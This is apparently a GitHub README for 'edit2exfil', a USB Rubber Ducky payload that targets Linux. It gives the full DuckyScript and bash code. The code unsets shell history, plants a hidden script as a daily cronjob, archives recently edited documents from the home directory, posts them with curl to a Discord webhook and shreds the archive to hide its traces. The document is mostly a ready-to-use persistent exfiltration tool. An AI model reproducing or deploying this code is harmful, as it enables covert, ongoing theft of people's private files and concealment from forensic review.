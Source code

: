 REM TITLE: edit2exfil

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux Release 2025-W19)

REM DESCRIPTION: (See below)

REM REQUIREMENTS: Place Discord webhook in the #WEBHOOK_URL constant on line 10 | Timing of when and how frequent the script will be ran (10:00 AM, daily by default) via `cronjob` can be changed in line 53.

REM: This payload can also be found on the [hak5 usbrubberducky-payloads Github repository](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/exfiltration/edit2exfil).

## edit2exfil

edit2exfil is a persistent file exfiltration payload that embeds itself as a `cronjob` on Linux systems via bash script, running silently in the background allowing for persistent exfiltration of updated files.

**The payload builds a bash script (.e2e.sh) that performs multiple tasks in the following order:**

1. a `net_check` conditional statement is utilized to see if the machine has internet connectivity. This is acheived by sending a `PING` to [Hak5.org](https://hak5.org). If `PING` was **NOT** successful, the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing). If the `PING` **WAS** successful, the script moves to a secondary conditional statement >
2. a `file_check` conditional statement is utilized to see if the following document file types have been modified (edited) in the past 24 hours in the /home directory (recursively): `.txt, .pdf, .docx, .doc, .csv, .xlsx, .png, .jpg, .jpeg, .sh`. If there are **NOT** any documents (with the previous file types) that have been modified in the past 24 hours in the /home directory (recursively), the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing), else >
3. The files are tarballed (.loot.tar.gz) and placed (hidden) in the /home directory for exfiltration >
4. The tarball is then exfiltrated via Discord webhook >
5. The tarball is then `shredded` to obfuscate its' presence >
6. End of script.

Total time for DuckyScript payload to run: `7 seconds`.

**DuckyScript Payload Workflow:**
  1. Terminal window is opened >
  2. Terminal history is unset (to obfuscate building of the payloads' bash script (.e2e.sh) > bash script is built >
  3. Execution permissions are given to .e2e.sh > .e2e.sh is added to `cronjob` to automatically run silently in the bachkground daily at 10:00 AM >
  4. Terminal window is closed >
  5. End of payload.

**Payload Bash Script (.e2e.sh):**
```
# Creating file_check function to see if the listed filetypes (and their respective documents) have been modified (edited) in the past 24 hours:
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}

# Creating hidden tarball function to tarball the listed documents (of the respective filetypes) that have been modified (edited) in the past 24 hours:
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}

# Creating net_check function to check for internet connectivity by send a PING to hak5.org:
net_check() {
    ping -c 1 hak5.org
}

# Creating global $user variable:
user="$(whoami)"

# If internet connection, check for files, if files, tarball, else exit:
if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi

# Exfiltrate tarball of found files to Discord:
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL

# Shred the tarball post exfiltration to obfuscate:
shred -fuz ~/.loot.tar.gz
```

**DuckyScript Payload (building of above script):**
```
REM Place Discord webhook and user constants:
DEFINE #WEBHOOK_URL https://discord.com/api/webhooks/PLACE/WEBHOOK/HERE
DEFINE #USER PLACE_USER_HERE

REM Begin attack:
ATTACKMODE HID
DELAY 1000

REM Opening terminal:
CTRL ALT t
DELAY 300

REM Unsetting terminal history and building ".e2e.sh":
STRINGLN unset HISTFILE
STRINGLN cat > .e2e.sh
STRINGLN_BASH
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}
net_check() {
    ping -c 1 hak5.org
}
user="$(whoami)"

if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL
shred -fuz ~/.loot.tar.gz
END_STRINGLN
CTRL c

REM Granting execution permissions and adding ".e2e.sh" to cronjob to be executed at 10:00 AM, daily:
STRINGLN chmod +x .e2e.sh && (crontab -l; echo "0 10 * * * ~/.e2e.sh") | crontab - && exit
```
